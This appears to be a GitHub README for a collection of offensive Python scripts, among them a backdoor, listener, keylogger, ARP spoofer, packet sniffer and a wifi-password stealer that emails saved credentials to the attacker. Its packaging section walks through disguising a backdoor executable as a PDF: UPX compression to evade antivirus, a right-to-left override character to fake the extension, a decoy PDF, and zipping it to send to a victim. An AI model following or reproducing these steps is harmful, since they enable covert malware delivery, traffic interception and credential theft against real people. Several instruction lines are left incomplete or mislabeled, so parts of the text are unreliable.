 # Python Scripts
A Collection of Python Scripts.

## Packaging

### Common
- Search pdf in [IconFinder](https://www.iconfinder.com/) to create an icon (Free, 512*\512, .ico)
- To bypass AntiVirus, use [UPX](https://github.com/upx/upx/releases) to compress exe file: ```./upx /root/PycharmProjects/backdoor/dist/backdoor.exe -o compressed_bacdoor.exe```
- Change the file extension:
  - Install Characters 3.34.0: ```apt install gnome-characters```
  - Search for 'Right-to-left Override' in 'Characters' tool in Kali
  - Select 'Copy Character' to copy 'Unicode U+202E' to clipboard
  - Open notepad and write 'al\*fdp.exe' then paste in the place of star
  - Rename the file to 'alexe.pdf'
- Zip the pdf file to hide the exe extension and send to victim

### Windows
- Install pyinstaller for python: ```python.exe -m pip install pyinstaller```
- Convert to exe: ```pyinstaller.exe backdoor.py --onefile --noconsole --add-data "/root/Downloads/sample.pdf;." --icon /root/Downlaods/pdf.ico```

### Linux
- Install python for Windows inside Linux: ```wine msiexec /i python-2.7.14.msi```
- Install pyinstaller for python: ```wine /root/.wine/drive_c/Python27/python.exe -m pip install pyinstaller```
- Install all imported library: ```wine /root/.wine/drive_c/Python27/python.exe -m pip install pynput```
- Convert to exe: ```wine /root/.wine/drive_c/Python27/Scripts/pyinstaller.exe backdoor.py --onefile --noconsole --add-data "/root/Downloads/sample.pdf;." --icon /root/Downlaods/pdf.ico```

## Usage

### Linux MAC Changer
```python linux_MAC_changer.py --interface eth0 --mac 12:11:11:11:11:11```
- First octet of the new MAC should be even (because of Unicast)

### Network Scanner
```python network_scanner.py --target 172.25.12.34/24```
- Use ```arp``` as a filter to check output in Wireshark

### ARP Spoofer
```python arp_spoofer.py --target 172.25.12.21 --gateway 172.25.12.1```
- Use ```echo 1 > /proc/sys/net/ipv4``` in attacker machine to route victim traffic to gateway

### Packet Sniffer
```python packet_sniffer.py --interface Ethernet```
- Use ```pip install scapy_http```
- Turn off all proxy
- Combine this script with Arp Spoofer

### ARP Spoof Detector
```python arp_spoof_detector.py```

### Wifi Passwords
```python packet_sniffer.py --interface Ethernet```
- Set "Less secure apps" for gmail account
- It will send all wifi credentials on laptop to an email address


### Key Logger
```python key_logger.py```
- Set "Less secure apps" for gmail account

### Listener
```python listener.py```
- Set attacker machine`a IP for my_listener object

### Backdoor
```python backdoor.py```
- Set attacker machine`a IP for my_backdoor object
- Use a sample pdf file to show to user

### Subdomain Discovery
```python subdomain_discovery.py```
- Set

### Directory Discovery
```python directory_discovery.py```
- Set

### Spider
```python spider.py```
- Set


